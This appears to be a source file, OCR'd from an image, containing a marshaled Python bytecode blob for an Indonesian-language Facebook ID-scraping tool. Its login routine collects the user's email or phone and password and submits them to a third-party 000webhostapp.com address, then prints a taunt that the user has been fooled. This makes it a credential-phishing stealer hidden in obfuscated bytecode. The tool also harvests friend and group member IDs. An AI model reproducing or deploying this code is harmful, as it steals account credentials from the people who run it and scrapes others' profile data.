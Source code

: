 <febry>R\x10\x00\x00\x00L\x00\x00\x00s\x1c\x00\x00\x00\x00\x01\x12\x01\n\x01\x03\x01-\x01\x0e\x01\x03\x01\x11\x01\x12\x01\n\x01\x03\x01-\x01\x0e\x01\x03\x01c\x01\x00\x00\x00\x02\x00\x00\x00\x03\x00\x00\x00C\x00\x01\x00ss\x00\x00\x00d\x01\x00|\x00\x00\x17\x01y+\x00t\x00\x00j\x01\x00|\x00\x00\x83\x01\x00}\x01\x00t\x02\x00t\x00\x00j\x03\x00_\x04\x00|\x01\x00j\x05\x00\x83\x00\x00}\x01\x00Wn\x16\x00\x01\x01\x01d\x02\x00|\x00\x00\x17\x01t\x06\x00\x83\x00\x00\x01n\x01\x00Xd\x03\x00|\x01\x00k\x06\x00rk\x00t\x07\x00t\x00\x00j\x08\x00\x83\x00\x00j\t\x00\x83\x01\x00S|\x01\x00Sd\x00\x00S(\x04\x00\x00\x00Ns\x0f\x00\x00\x00\rh[*]Membuka \rps\x15\x00\x00\x00\rm[!]Gagal membuka \rps\x1b\x00\x00\x00<link rel="redirect" href="(\n\x00\x00\x00t\x02\x00\x00\x00brR\x17\x00\x00\x00t\x04\x00\x00\x00Truet\x08\x00\x00\x00_factoryt\x07\x00\x00\x00is_htmlt\x04\x00\x00\x00readR\x14\x00\x00\x00t\x04\x00\x00\x00bukat\t\x00\x00\x00find_linkt\x03\x00\x00\x00url(\x02\x00\x00\x00R$\x00\x00\x00R\t\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<febry>R/\x00\x00\x00[\x00\x00\x00s\x16\x00\x00\x00\x00\x01\x08\x01\x03\x01\x0f\x01\x0c\x01\x10\x01\x03\x01\x08\x01\x0b\x01\x0c\x01\x13\x02c\x00\x00\x00\x00\x04\x00\x00\x00\x03\x00\x00\x00C\x00\x01\x00s\x08\x01\x00\x00t\x00\x00d\x01\x00\x83\x01\x00}\x00\x00t\x00\x00d\x02\x00\x83\x01\x00}\x01\x00t\x01\x00d\x03\x00\x83\x01\x00\x01t\x02\x00d\x04\x00\x83\x01\x00\x01t\x03\x00j\x04\x00d\x05\x00d\x06\x00\x83\x00\x01\x01|\x00\x00t\x03\x00j\x05\x00d\x07\x00<|\x01\x00t\x03\x00j\x05\x00d\x08\x00<t\x03\x00j\x06\x00\x83\x00\x00\x01t\x03\x00j\x07\x00\x83\x00\x00}\x02\x00d\t\x00|\x02\x00k\x06\x00s\x84\x00d\n\x00|\x02\x00k\x06\x00r\xda\x00t\x01\x00d\x0b\x00\x83\x01\x00\x01t\x02\x00d\x0c\x00\x83\x01\x00\x01t\x03\x00j\x08\x00d\r\x00d\x0e\x00\x83\x00\x01j\t\x00}\x03\x00t\n\x00j\x0b\x00d\x0f\x00|\x03\x00\x83\x02\x00d\x06\x00\x19}\x03\x00t\x01\x00d\x10\x00|\x03\x00\x16\x83\x01\x00\x01d\x11\x00a\x0c\x00n*\x00d\x12\x00|\x02\x00k\x06\x00r\xfa\x00t\x01\x00d\x13\x00\x83\x01\x00\x01t\r\x00\x83\x00\x00\x01n\n\x00t\x01\x00d\x14\x00\x83\x01\x00\x01d\x00\x00S(\x15\x00\x00\x00Ns\x0b\x00\x00\x00[?]Email/HPs\r\x00\x00\x00[?]Kata Sandis\x15\x00\x00\x00\rh[*]Sedang Login....s-\x00\x00\x00https://berbagi-2.000webhostapp.com/index.phpt\x02\x00\x00\x00nri\x00\x00\x00\x00t\x05\x00\x00\x00emailt\x04\x00\x00\x00passs\x0b\x00\x00\x00save-devicet\x06\x00\x00\x00m_sesss\x13\x00\x00\x00\rh[*]Login Berhasils$\x00\x00\x00https://mobile.facebook.com/home.phpt\t\x00\x00\x00url_regexs\n\x00\x00\x00logout.phps\n\x00\x00\x00\\((.*a?)\\)sI\x00\x00\x00\rh[*]Selamat datang \rk%s\n\rh[*]Semoga ini adalah hari keberuntungan mu....i\x01\x00\x00\x00t\n\x00\x00\x00checkpoints;\x00\x00\x00\rm[!]Akun kena checkpoint\n\rk[!]Coba Login dengan opera minis=\x00\x00\x00\rm[!]Tertypu kau boedjank:V || Kalo mau diamond Ya TopUp lah.(\x0e\x00\x00\x00R"\x00\x00\x00R\x0c\x00\x00\x00R/\x00\x00\x00R*\x00\x00\x00t\x0b\x00\x00\x00select_formt\x04\x00\x00\x00formt\x06\x00\x00\x00submitt\x06\x00\x00\x00geturlR0\x00\x00\x00t\x04\x00\x00\x00textt\x02\x00\x00\x00ret\x07\x00\x00\x00findallt\x03\x00\x00\x00logR\x14\x00\x00\x00(\x04\x00\x00\x00t\x02\x00\x00\x00ust\x02\x00\x00\x00paR1\x00\x00\x00t\x04\x00\x00\x00nama(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<febry>t\x05\x00\x00\x00loginh\x00\x00\x00s(\x00\x00\x00\x00\x02\x0c\x01\x0c\x01\n\x01\n\x01\x10\x01\r\x01\r\x01\n\x01\x0c\x01\x18\x01\n\x01\n\x01\x15\x01\x16\x01\x0e\x01\t\x01\x0c\x01\n\x01\n\x02c\x01\x00\x00\x00\x02\x00\x00\x00\x04\x00\x00\x00C\x00\x01\x00s<\x00\x00\x00x5\x00t\x00\x00j\x01\x00d\x01\x00|\x00\x00\x83\x02\x00D]!\x00}\x01\x00t\x02\x00j\x03\x00|\x01\x00\x83\x01\x00\x01t\x04\x00d\x02\x00|\x01\x00\x16\x83\x01\x00\x01q\x13\x00Wd\x00\x00S(\x03\x00\x00\x00Ns&\x00\x00\x00/friends/hovercard/mbasic/\\?uid=(.*?)&s\x0b\x00\x00\x00\rc==>\rb%s\rm(\x05\x00\x00\x00R=\x00\x00\x00R>\x00\x00\x00R)\x00\x00\x00t\x06\x00\x00\x00appendR\x0c\x00\x00\x00(\x02\x00\x00\x00R\x16\x00\x00\x00R\x0b\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<febry>t\x0f\x00\x00\x00saring_id_teman\x7f\x00\x00\x00s\x06\x00\x00\x00\x00\x01\x19\x01\r\x01c\x01\x00\x00\x00\x03\x00\x00\x00\x04\x00\x00\x00C\x00\x01\x00s\x93\x00\x00\x00x\x8c\x00t\x00\x00j\x01\x00d\x01\x00|\x00\x00\x83\x02\x00D]x\x00}\x01\x00|\x01\x00j\x02\x00d\x02\x00\x83\x01\x00d\x03\x00k\x02\x00rC\x00|\x01\x00j\x03\x00d\x04\x00d\x05\x00\x83\x02\x00}\x02\x00n\x1e\x00|\x01\x00j\x03\x00d\x06\x00d\x05\x00\x83\x02\x00j\x03\x00d\x07\x00d\x05\x00\x83\x02\x00}\x02\x00|\x02\x00t\x04\x00k\x07\x00r\x13\x00t\x05\x00d\x08\x00|\x02\x00\x16\x83\x01\x00\x01t\x04\x00j\x06\x00|\x02\x00\x83\x01\x00\x01q\x13\x00q\x13\x00Wd\x00\x00S(\t\x00\x00\x00Ns\x1a\x00\x00\x00<h3><a href="/(.*?)fref=pbs\x0b\x00\x00\x00profile.phpi\xff\xff\xff\xfft\x01\x00\x00\x00?t\x00\x00\x00\x00s\x0f\x00\x00\x00profile.php?id=s\x05\x00\x00\x00&amp;s\t\x00\x00\x00\rk==>\rc%s(\x07\x00\x00\x00R=\x00\x00\x00R>\x00\x00\x00t\x04\x00\x00\x00findR\x07\x00\x00\x00R&\x00\x00\x00R\x0c\x00\x00\x00RD\x00\x00\x00(\x03\x00\x00\x00R$\x00\x00\x00R\x0b\x00\x00\x00R!\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<febry>t\x10\x00\x00\x00saring_id_group1\x83\x00\x00\x00s\x0e\x00\x00\x00\x00\x01\x19\x01\x15\x01\x15\x02\x1e\x01\x0c\x01\x0e\x01c\x00\x00\x00\x00\x03\x00\x00\x00\x04\x00\x00\x00C\x00\x01\x00s\xa7\x00\x00\x00x\x88\x00t\x00\x00d\x01\x00\x83\x01\x00a\x01\x00t\x02\x00d\x02\x00\x83\x01\x00\x01t\x03\x00d\x03\x00t\x01\x00\x17d\x04\x00\x17\x83\x01\x00}\x00\x00d\x05\x00j\x04\x00t\x05\x00j\x06\x00d\x06\x00|\x00\x00\x83\x02\x00d\x07\x00\x19j\x07\x00\x83\x00\x00d\x08\x00\x1f\x83\x01\x00}\x01\x00y\x1a\x00t\x08\x00j\t\x00d\t\x00d\n\x00\x83\x00\x01j\n\x00}\x02\x00PWq\x03\x00\x01\x01\x01t\x02\x00d\x0b\x00\x83\x01\x00\x01q\x03\x00q\x03\x00Xq\x03\x00Wt\x02\x00d\x0c\x00|\x01\x00\x16\x83\x01\x00\x01t\x0b\x00|\x00\x00\x83\x01\x00\x01|\x02\x00S(\r\x00\x00\x00Ns\x0b\x00\x00\x00[?]Id Groups\x17\x00\x00\x00\rh[*]Mengecek